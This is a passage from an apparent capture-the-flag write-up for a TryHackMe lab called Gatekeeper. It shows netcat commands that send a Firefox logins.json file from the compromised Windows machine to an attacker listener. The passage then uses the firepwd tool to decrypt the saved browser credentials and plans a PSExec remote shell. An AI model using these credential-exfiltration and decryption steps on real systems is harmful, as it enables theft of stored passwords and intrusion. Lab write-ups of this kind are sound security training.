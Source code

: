 Do the same for the other file:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 4444 > logins.json
listening on [any] 4444 ...
```

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>nc -nv 10.8.165.116 4444 < logins.json
nc -nv 10.8.165.116 4444 < logins.json
```

Get the firepwd script:

```text
root@kali:/home/kali/thm/gatekeeper# git clone https://github.com/lclevy/firepwd.git
Cloning into 'firepwd'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 88 (delta 2), reused 1 (delta 0), pack-reused 80
Receiving objects: 100% (88/88), 238.50 KiB | 2.00 MiB/s, done.
Resolving deltas: 100% (41/41), done.
```

Install requirements:

```text
root@kali:/home/kali/thm/gatekeeper# mv key4.db firepwd/
root@kali:/home/kali/thm/gatekeeper# mv logins.json firepwd/
root@kali:/home/kali/thm/gatekeeper# cd firepwd/

root@kali:/home/kali/thm/gatekeeper/firepwd# pip install -r requirements.txt
Collecting PyCryptodome>=3.9.0
Downloading pycryptodome-3.10.1-cp35-abi3-manylinux2010_x86_64.whl (1.9 MB)
 |████████████████████████████████| 1.9 MB 3.4 MB/s
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (0.4.8)
Installing collected packages: PyCryptodome
Successfully installed PyCryptodome-3.10.1
```

Now run the script:

```text
root@kali:/home/kali/thm/gatekeeper/firepwd# python3 firepwd.py
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
<SNIP>
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'<<HIDDEN>>'
```

Excellent we have a user and password. Now we can try to use PSExec to start a remote command prompt using those credentials:

## Impacket
